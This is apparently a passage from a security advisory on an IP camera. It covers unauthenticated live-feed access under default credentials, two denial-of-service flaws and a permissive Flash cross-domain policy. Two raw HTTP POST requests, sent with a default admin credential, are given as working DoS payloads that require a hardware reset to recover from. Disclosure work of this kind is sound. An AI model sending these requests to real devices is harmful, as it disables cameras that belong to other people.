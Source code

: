 With this attack, an attacker is able to view a live feed of the camera. If the
user has not changed their default password, an attacker can potentially perform
this without the user being authenticated on the camera.

## Denial of Service (DoS)

Two denial of service (DoS) vulnerabilities exist in the camera. Behaviour in
both cases is that the camera becomes unresponsive and a hardware reset is
necessary to make the camera usable again.

The first example is shown below:

~~~
POST /cgi-bin/upload.cgi HTTP/1.1
Host: 192.168.0.16
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Referer: http://192.168.0.16/advanced.htm
Authorization: Basic YWRtaW46
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
~~~

The second example is shown below:

~~~
POST /cgi-bin/upload_settings.cgi HTTP/1.1
Host: 192.168.0.16
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Referer: http://192.168.0.16/advanced.htm
Authorization: Basic YWRtaW46
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
~~~


## Wide cross-domain policy for Adobe Flash Player

Cross-Origin Resource Sharing for Adobe is shown below.

~~~
GET /crossdomain.xml HTTP/1.1
Host: 192.168.0.16
Authorization: Basic YWRtaW46
Connection: close
~~~

The result indicates that all origins are allowed.

~~~
HTTP/1.0 200 OK
Server: alphapd
Date: Sat Jan  1 00:00:03 2000
Last-modified: Sat Jan  1 00:00:03 2000
Content-type: text/xml
Content-length: 215

<?xml version="1.0"?>
<!DOCTYPE cross-domain-policy SYSTEM "http://www.adobe.com/xml/dtds/cross-domain-policy.dtd">
<cross-domain-policy>
   <allow-access-from domain="*" secure="true" />
</cross-domain-policy>
~~~

The results have not been verified in an attack and there is therefore some
uncertainty regarding the actual risk of this weakness.


